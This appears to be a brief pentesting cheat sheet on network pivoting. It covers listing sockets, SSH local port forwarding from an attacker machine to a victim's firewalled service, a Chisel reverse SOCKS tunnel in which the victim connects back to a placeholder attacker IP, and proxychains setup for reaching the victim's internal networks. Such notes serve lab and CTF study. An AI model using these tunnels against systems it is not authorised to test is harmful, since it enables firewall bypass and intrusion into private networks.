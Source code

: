 
## See exposed sockets

See what socket is used on the machine :

```
ss -tulpn
```

## Using ssh to expose service

If a service is running on lets say port 8080 of a machine (and is blocked by a firewall), you can redirect the trafic to your machine on port 2222 for exemple :

```bash
#attacker machine
ssh -L 2222:127.0.0.1:8080 <user>@<victim ip>
```

Access the hidden service on `127.0.0.1:2222` on the attacker machine

## Chisel

[Chisel Tunneling](http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/)

On host :
```
./chisel.elf server -p 8080 --reverse
```

On victim : 
```
./chisel.elf client <YourIP>:8080 R:socks
```

### Setup and use ProxyChains with Chisel

Create a proxychains.conf : 
```
proxy_dns
tcp_read_time_out 200
tcp_connect_time_out 200
[ProxyList]
socks5	127.0.0.1 1080
```

Launch the server, connect the client and you can access the IPs on the networks your client has access to, from your attacker machine with the command : 

```
proxychains -q <command> # -q for quiet
```

